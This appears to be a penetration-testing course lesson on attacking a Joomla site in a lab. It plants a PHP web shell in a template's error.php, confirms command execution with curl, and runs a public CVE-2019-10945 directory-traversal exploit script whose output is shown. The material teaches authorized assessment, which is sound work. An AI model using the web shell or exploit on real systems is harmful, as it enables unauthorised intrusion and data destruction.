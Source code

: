 # Attacking Joomla

We now know that we are dealing with a Joomla e-commerce site. If we can gain access, we may be able to land in the client's internal environment and begin enumerating the internal domain environment. Like WordPress and Drupal, Joomla has had its fair share of vulnerabilities against the core application and vulnerable extensions. Furthermore, like the others, it is possible to gain remote code execution if we can log in to the admin backend.

***

## Abusing Built-In Functionality

During the Joomla enumeration phase and the general research hunting for company data, we may come across leaked credentials that we can use for our purposes. Using the credentials that we obtained in the examples from the last section, `admin:admin`, let's log in to the target backend at `http://dev.inlanefreight.local/administrator`. Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

{% hint style="danger" %}
If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com\_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php</p></figcaption></figure>

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates</p></figcaption></figure>

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506</p></figcaption></figure>

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506&#x26;file=L2Vycm9yLnBocA%3D%3D</p></figcaption></figure>

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network. We should be sure, once again, to note down this change for our report appendices and make every effort to remove the PHP snippet from the `error.php` page.

***

## Leveraging Known Vulnerabilities

At the time of writing, there have been [426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html) Joomla-related vulnerabilities that received CVEs. However, just because a vulnerability was disclosed and received a CVE does not mean that it is exploitable or a working public PoC exploit is available. Like with WordPress, critical vulnerabilities (such as those remote code execution) that affect Joomla core are rare. Searching a site such as `exploit-db` shows over 1,400 entries for Joomla, with the vast majority being for Joomla extensions.

Let's dig into a Joomla core vulnerability that affects version `3.9.4`, which our target `http://dev.inlanefreight.local/` was found to be running during our enumeration. Checking the Joomla [downloads](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html) page, we can see that `3.9.4` was released in March of 2019. Though it is out of date as we are on Joomla `4.0.3` as of September 2021, it is entirely possible to run into this version during an assessment, especially against a large enterprise that may not maintain a proper application inventory and is unaware of its existence.

Researching a bit, we find that this version of Joomla is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories. The python3 version of this same script can be found [here](https://github.com/dpgg101/CVE-2019-10945). We can also use it to delete files (not recommended). This could lead to access to sensitive files such as a configuration file or script holding credentials if we can then access it via the application URL. An attacker could also cause damage by deleting necessary files if the webserver user has the proper permissions.

We can run the script by specifying the `--url`, `--username`, `--password`, and `--dir` flags. As pentesters, this would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds, we can gain remote code execution, as we saw above.

```shell-session
$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

***

## Moving On

Next, let's take a look at Drupal, which, while it holds a much smaller share of the CMS market, is still used by companies worldwide.
